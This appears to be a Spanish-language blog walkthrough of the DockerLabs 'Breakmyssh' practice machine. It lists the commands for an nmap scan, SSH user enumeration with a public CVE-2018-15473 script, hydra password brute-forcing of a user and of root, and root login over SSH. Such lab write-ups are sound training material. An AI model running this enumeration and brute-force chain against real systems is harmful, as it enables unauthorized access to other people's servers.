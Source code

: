 ```yaml
---
layout: post
title: "Breakmyssh"
date: 2024-07-15 11:05:23
category: dockerlabs
vm: dockerlabs
---
```


<table class="log">
  <tr>
    <td rowspan="5"><img src="/notas/public/img/dockerlabs/dockerlabs.png" width=260></td>
    <td></td>
  </tr>
  <tr> <td><strong>Máquina:</strong> Breakmyssh </td> </tr>
  <tr> <td><strong>SO:</strong> Linux</td> </tr>
  <tr> <td><strong>Nivel:</strong> <span class="reeasy">Muy Facil</span></td> </tr>
  <tr> <td><strong><a href="https://dockerlabs.es" target="_blank"> DockerLabs</a></strong></td> </tr>
</table>

<br>

![img](/notas/public/img/dockerlabs/breakmyssh/host.png){:.margin}

**1\.** Escaneando los puertos de la maquina objetivo, solo esta disponible el ssh.

`sudo nmap -open- --open -T5 --min-rate=5000 -sCV -sS -n -Pn 172.17.0.2`

![img](/notas/public/img/dockerlabs/breakmyssh/nmap.png){:.margin}

**2\.** Ya que no tenemos nada mas, buscando como enumerar usuarios de ssh, encuentro un [CVE-2018-15473](https://github.com/Sait-Nuri/CVE-2018-15473).

`git clone -q https://github.com/Sait-Nuri/CVE-2018-15473`

`cd CVE-2018-15473`

`python3 CVE-2018-15473.py 172.17.0.2 -w /usr/share/wordlists/rockyou.txt | grep -v "invalid"`

![img](/notas/public/img/dockerlabs/breakmyssh/cvepy.png){:.margin}

**3\.** Teniendo el usuario ahora bruteforceo la contraseña con hydra.

`hydra -l lovely -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2`

![img](/notas/public/img/dockerlabs/breakmyssh/hydra.png){:.margin}

**4\.** Me conecto por ssh con las credenciales obtenidas.

`ssh lovely@172.17.0.2`

![img](/notas/public/img/dockerlabs/breakmyssh/sshlovely.png){:.margin}

**5\.** No encontre nada para poder escalar, viendo el passwd solo tengo el usuario root.

`cat /etc/passwd | grep sh$`

![img](/notas/public/img/dockerlabs/breakmyssh/catpasswd.png){:.margin}

**6\.** Fuerza bruta a la contraseña de root con hydra.

`hydra -l root -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2`

![img](/notas/public/img/dockerlabs/breakmyssh/hydraroot.png){:.margin}

**7\.** Solo nos queda conectarnos por ssh como root.

`ssh root@172.17.0.2`

![img](/notas/public/img/dockerlabs/breakmyssh/root.png){:.margin}

<br>

<a href="#">_Finalizado._</a>